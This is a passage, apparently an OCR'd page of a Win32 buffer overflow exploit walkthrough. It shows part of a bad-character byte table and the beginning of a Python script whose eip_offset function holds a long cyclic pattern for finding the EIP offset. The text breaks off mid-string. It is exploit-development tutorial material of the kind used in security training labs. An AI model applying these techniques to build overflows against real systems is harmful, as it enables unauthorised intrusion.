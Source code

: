 ```powershell
| D2 D3 D4 D5 D6 D7 D8 D9 DA DB |  
| DC DD DE DF E0 E1 E2 E3 E4 E5 |  
| E6 E7 E8 E9 EA EB EC ED EE EF |  
| F0 F1 F2 F3 F4 F5 F6 F7 F8 F9 |  
| FA FB FC FD FE FF             |  
--------------------------------
```

2. Craft the payload indentifying bad chars

```python
└─$ cat win32bof_exploit.py 
def eip_offset():
  payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
	              "9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"
                  "Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"
                  "i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"
                  "7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"
                  "Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"
                  "r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"
                  "5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4"
                  "Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3B"
                  "a4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd"
                  "3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2"
                  "Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1B"
                  "j2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm"
                  "1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0"
                  "Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9B"
                  "s0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu"
                  "9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8"
                  "Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7C"
                  "a8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd"
                  "7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6"
                  "Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5C"
                  "j6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm"
                  "5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4"
                  "Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3C"
                  "s4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv"
```